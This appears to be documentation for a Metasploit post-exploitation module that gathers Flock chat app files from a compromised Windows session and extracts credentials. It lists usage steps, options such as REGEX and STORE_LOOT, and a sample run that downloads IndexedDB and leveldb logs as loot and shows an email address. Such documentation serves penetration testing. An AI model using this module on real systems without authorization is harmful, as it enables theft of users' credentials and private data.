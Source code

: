## Module Description

This post-exploitation module gathers artifacts found on flock related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/flock
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
mmsf6 post(windows/gather/credentials/flock) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Flock's parent folder found
[*] Flock's parent folder found
[*] Flock's parent folder found
[*] Flock's *.log file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\IndexedDB\file__0.indexeddb.leveldb\000124.log
[*] Flock 000124.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000124.log_227739.log

[+] File with credentials saved:  /root/.msf4/loot/20210513124826_default_192.168.56.106_EXTRACTION.log_378223.log
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\IndexedDB\https_auth.flock.com_0.indexeddb.leveldb\000004.log
[*] Flock 000004.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000004.log_041330.log

[+] File with credentials saved:  /root/.msf4/loot/20210513124826_default_192.168.56.106_EXTRACTION.log_514565.log
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\Local Storage\leveldb\000008.log
[*] Flock 000008.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000008.log_824047.log

[+] email":"kazuyoshimaruta@outlook.jp","teamInfo":
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```